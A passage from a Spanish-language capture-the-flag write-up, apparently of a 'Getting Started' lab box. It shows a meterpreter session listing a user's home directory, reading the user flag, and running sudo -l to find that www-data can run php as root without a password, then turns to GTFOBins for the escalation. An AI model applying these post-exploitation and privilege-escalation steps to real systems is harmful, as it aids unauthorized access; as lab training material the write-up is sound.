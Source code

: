 Obtengo acceso y empiezo a navegar con *meterpreter*.

```js
meterpreter > cd mrb3n
meterpreter > ls
Listing: /home/mrb3n
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
020666/rw-rw-rw-  0      cha   2023-03-27 16:23:02 +0200  .bash_history
100644/rw-r--r--  220    fil   2020-02-25 13:03:22 +0100  .bash_logout
100644/rw-r--r--  3771   fil   2020-02-25 13:03:22 +0100  .bashrc
040700/rwx------  4096   dir   2021-02-09 10:12:07 +0100  .cache
100644/rw-r--r--  807    fil   2020-02-25 13:03:22 +0100  .profile
100644/rw-r--r--  0      fil   2021-02-09 11:56:38 +0100  .sudo_as_admin_successful
100600/rw-------  10332  fil   2021-05-07 16:28:39 +0200  .viminfo
100664/rw-rw-r--  33     fil   2021-02-16 12:00:55 +0100  user.txt

meterpreter > cat user.txt
```

Y por fin localizo la primera flag en */home/mrb3n.*

Ahora a escalar privilegios. Lo primero que hago es listar los permisos que tiene el usuario actual para ejecutar comandos con el comando "sudo".

```bash
meterpreter > sudo -l
[-] Unknown command: sudo
meterpreter > shell
Process 1855 created.
Channel 0 created.
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

Se puede ver que el siguiente binario no requiere password *(ALL : ALL) NOPASSWD: /usr/bin/php*

Busco en [gtfobins]([https://gtfobins.github.io/](https://gtfobins.github.io/)) el binario php y encuentro lo siguiente.

![](/assets/images/1-getting-strated/6.png)
